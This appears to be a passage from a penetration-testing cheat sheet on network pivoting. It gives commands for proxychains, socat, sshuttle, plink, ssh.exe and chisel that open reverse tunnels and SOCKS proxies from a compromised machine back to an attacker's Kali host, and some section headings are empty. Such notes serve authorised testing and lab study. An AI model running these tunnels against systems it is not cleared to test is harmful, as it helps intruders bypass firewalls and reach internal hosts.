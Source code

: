 ```
proxychains smbclient -L //IP_MACHINE3/
```

### SSH Remote Port Forwarding

With Firewall!

### SSH Remote Dynamic Port Forwarding

### sshutle

If needed, we can make a tunnel from MACHINE1 in order to forward all traffic from another networks, in this example we can use socat for that. In MACHINE1:
```
socat TCP-LISTEN:2222,fork TCP:IP_MACHINE2:22
```

From Kali:
```
sshuttle -r username@IP_MACHINE3:2222 NETWORK1/24 NETWORK2/24
```

### PLink

Access RDP port on the server, using port $rport
```
.\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:$rport:127.0.0.1:3389 $lhost
```
NOTE: You need to enable ssh service in kali
NOTE2: In order to automate the confirmation that we usually type when prompt, we need to use `cmd.exe /c echo | plink...`

### netsh

### ssh.exe
```
.\ssh.exe -N -R 9998 kali@[your ip/tun0]
```
### Chisel

#### Local machine:
Your local server:
```
chisel server --port LPORT --reverse
```
NOTE: chisel can accept more than one connection.
NOTE2: remember to use the SAME version in both sides!

#### Remote machine:
Dynamic type:
```
chisel client --max-retry-count 3 SERVER_IP:SERVER_LPORT R:socks
```
